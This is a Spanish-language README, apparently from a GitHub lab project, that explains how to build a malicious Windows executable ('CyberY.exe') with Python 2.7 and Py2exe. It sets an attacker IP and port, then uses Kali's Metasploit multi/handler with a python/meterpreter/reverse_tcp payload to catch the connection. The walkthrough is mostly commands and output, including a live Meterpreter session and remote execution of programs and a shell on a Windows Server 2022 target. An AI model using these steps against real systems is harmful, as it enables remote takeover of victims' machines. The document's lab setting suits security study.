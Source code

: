 # Elaboración del Virus

Hay 2 formas de generar el .exe que se ejecuta para hacer el reverse utilizando Kali y Windows:

1. Creando el archivo .exe con el script manual desde cero y modificado.
2. Creando con el script ya hecho y listo para poner IP y puerto.

## Desde un Entorno Windows

La primera forma es crearlo en un entorno Windows instalando los prerrequisitos como:

- Python 2.7 
- Py2Exe

A continuación se encuentra el script para crearlo tú mismo, este genera el ejecutable .EXE.

**Link del código modificable del Script**: [aepy2exe.py](#)

### Explicación del Flujo Principal del Archivo .py:

Definir los argumentos del CLI:

```bash
python aepy2exe.py -ip 172.31.94.51 -p 443
```

- `-ip`: IP del atacante (por defecto 172.31.94.51).
- `-p`: Puerto del atacante (por defecto 443).

El script realizará lo siguiente:

- Generar, codificar y escribir el payload en un archivo.
- Convertir el script .py en un ejecutable con Py2exe.
- Limpiar los archivos temporales generados.
- Mostrar errores si ocurren.

El archivo .exe creado tendrá la IP y los puertos a escuchar. Este se ejecutará en el entorno Windows a atacar.

Para ejecutar el script en la terminal:

```bash
python aepy2exe.py -e py2exe -ip 172.31.94.51 -p 443
```

Esto generará un archivo llamado `CyberY.exe`, y se ejecutará en la misma máquina, no se envía a la víctima Windows.

## Segunda Forma Dentro de la Instancia de Windows

### Prerrequisitos para Instalar en la Instancia Windows Server 2022 a Ser Atacada:

1. Instalar Python 2.7.16 (versión x86 / 32 bits)
   - Descarga Python 2.7.16 desde: [python-2.7.16.msi](https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi)
   - Durante la instalación:
     - Asegúrese de marcar la opción para añadir Python al PATH.
     - Elija la instalación para todos los usuarios.
   - Verifique que Python esté correctamente instalado abriendo la consola de comandos y escribiendo:
     ```bash
     python --version
     ```
     Debería mostrar: `Python 2.7.16`.

2. Instalar Py2exe (32 bits para Python 2.7)
   - Descargue Py2exe desde: [py2exe-0.6.9.win32-py2.7.exe](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe)
   - Instale Py2exe y verifique que esté disponible:
     ```bash
     python -m py2exe
     ```

Este script crea un ejecutable malicioso a partir de un script Python utilizando Py2exe. Descarga el archivo `aepy2exe.py` y guárdalo en una carpeta, por ejemplo:

- **Descarga desde aquí el script ya hecho:** [Script Listo](#)

Abra un Símbolo del sistema como Administrador y navegue a la carpeta donde se guardó el archivo `aepy2exe.py`.

### Ejecución del Script aepy2exe.py

Ejemplo de ejecución:

La máquina atacante tiene la IP `172.31.94.51` y usará el puerto `443`.

Genera el ejecutable:

```bash
python aepy2exe.py -e py2exe -ip 172.31.94.51 -p 443
```

Esto generará un archivo llamado `CyberY.exe`.

### Prueba del Ejecutable Generado

Ejecuta el archivo en el entorno de prueba (Windows Server 2022):

- Ubicación referencial:
  ```
  C:\proyecto\CyberY.exe
  ```

## Atacar Desde AWS Linux con Kali + Metasploit

Principalmente se requiere una máquina virtual con Docker, donde tendremos un contenedor con una imagen de Kali Linux. Dentro de la imagen de Kali, necesitamos tener instalado el “Metasploit Framework”.

Los comandos que ejecutaremos son los siguientes:

Iniciamos el contenedor de Kali:

```bash
$ docker start -i kali 
# (kali es el nombre que se le asignó al contenedor)
```

Dentro del contenedor de Kali iniciamos Metasploit:

```bash
$ msfconsole
```

Desde ahora todos los comandos que vienen serán dentro de la consola de “msfconsole”.

Declaramos que usaremos el exploit genérico `multi/handler`, el cual es un manejador para recibir conexiones de payloads reversos:

```bash
use exploit/multi/handler
```

Se configura el payload `python/meterpreter/reverse_tcp`, que envía una sesión de Meterpreter a través de una conexión TCP inversa:

```bash
set PAYLOAD python/meterpreter/reverse_tcp
```

Se define el puerto local (`LPORT`) en `443` y la dirección del host local (`LHOST`) en `172.31.94.51`, que es la dirección IP de la máquina atacante:

```bash
set LPORT 443   
set LHOST 172.31.94.51
```

Ejecutamos el exploit para que quede escuchando cuando sea ejecutado en la otra máquina:

```bash
msf6 exploit(multi/handler) > exploit
```

La respuesta del comando anterior fue la siguiente:

```
[*] Started reverse TCP handler on 172.31.94.51:443 
[*] Sending stage (24772 bytes) to 172.31.45.226
[*] Meterpreter session 1 opened (172.31.94.51:443 -> 172.31.45.226:49753) at 2024-10-17 00:27:58 +0000 
```

# Existe una sesión abierta, es decir que una máquina se encuentra infectada.

Ejecución de los comandos “execute -f notepad.exe”, “execute -f calc.exe” y “shell” correctamente enviados.

```bash
meterpreter > execute -f notepad.exe
Process 1780 created.
meterpreter > execute -f calc.exe
Process 3564 created.
meterpreter > shell
Process 2576 created.
Channel 1 created.
```

Resultado con captura de los `execute` abriendo desde Kali hacia Windows Server 2022:
